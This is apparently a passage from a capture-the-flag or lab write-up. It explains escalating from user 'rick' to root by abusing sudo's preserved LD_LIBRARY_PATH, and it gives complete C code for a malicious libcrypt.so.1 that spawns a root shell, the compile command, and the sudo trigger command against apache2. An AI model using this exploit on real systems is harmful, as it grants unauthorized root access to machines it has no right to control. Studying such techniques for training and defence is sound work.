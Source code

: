 
## rick → root (LD_LIBRARY_PATH abuse)

`sudo -l` showed `rick` can run certain commands. Important detail: `env_keep += LD_LIBRARY_PATH` was present — this means `sudo` preserves `LD_LIBRARY_PATH` when running privileged binaries. That’s exploitable: if a root-run program loads `libcrypt.so.1` (or any library) and we control `LD_LIBRARY_PATH`(env), we can place a malicious `libcrypt.so.1` in a folder we control and have the binary load it, executing our code as root.

Checklist I used:

1. Find external libraries that are loaded by program (you check libraries via `ldd /usr/sbin/apache2`).
2. Create a malicious shared object named as the target library (e.g. `libcrypt.so.1`) with a constructor that spawns a root shell.
3. Transfer the `.so` to `/tmp` and set `LD_LIBRARY_PATH=/tmp` when running the root binary with `sudo`.

### exploit C 

Save this as `exploit.c`:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

void inject()__attribute__((constructor));   /* makes sure code runs immediately after getting loaded */

void inject() {
    /* escalate and spawn shell */
    setgid(0);
    setuid(0);
    unsetenv("LD_LIBRARY_PATH"); /* cleanup if desired */
    system("/bin/bash -p");
}
```

Compile it to a shared object named `libcrypt.so.1`:

```bash
gcc -fPIC -shared -o libcrypt.so.1 exploit.c
```

(`-fPIC` + `-shared` make it a proper .so.)

### Move to target and trigger

Copy `libcrypt.so.1` to `/tmp` on the target (use `scp` / `nc` / python server).

Then run the target binary under sudo with `LD_LIBRARY_PATH` pointing to `/tmp`.

```bash
# on target (as rick) 
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
